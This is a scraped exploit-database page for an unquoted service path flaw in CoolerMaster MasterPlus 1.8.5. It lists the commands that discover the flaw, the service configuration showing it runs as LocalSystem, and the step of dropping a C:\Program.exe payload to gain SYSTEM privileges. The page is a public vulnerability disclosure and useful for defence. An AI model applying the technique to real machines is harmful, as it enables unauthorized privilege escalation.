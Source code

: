 ```yaml
---
title: CoolerMaster MasterPlus 1.8.5 Unquoted Service Path exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171612&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-01
fetch_date: 2025-10-04T11:20:19.053306
---
```


# CoolerMaster MasterPlus 1.8.5 Unquoted Service Path exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CoolerMaster MasterPlus 1.8.5 Unquoted Service Path

2023-03-31 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171612
# Exploit Title: CoolerMaster MasterPlus 1.8.5 - 'MPService' Unquoted Service Path
# Date: 11/17/2022
# Exploit Author: Damian Semon Jr (Blue Team Alpha)
# Version: 1.8.5
# Vendor Homepage: https://masterplus.coolermaster.com/
# Software Link: https://masterplus.coolermaster.com/
# Tested on: Windows 10 64x

# Step to discover the unquoted service path:
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

CoolerMaster MasterPlus Technology Service MPService C:\Program Files (x86)\CoolerMaster\MasterPlus\MPService.exe Auto

# Info on the service:
C:\>sc qc MPService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: MPService
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Program Files (x86)\CoolerMaster\MasterPlus\MPService.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : CoolerMaster MasterPlus Technology Service
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem

#Exploit:
A successful exploit of this vulnerability could allow a threat actor to execute code during startup or reboot with System privileges. Drop payload "Program.exe" in C:\ and restart service or computer to trigger.
Ex: (C:\Program.exe)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)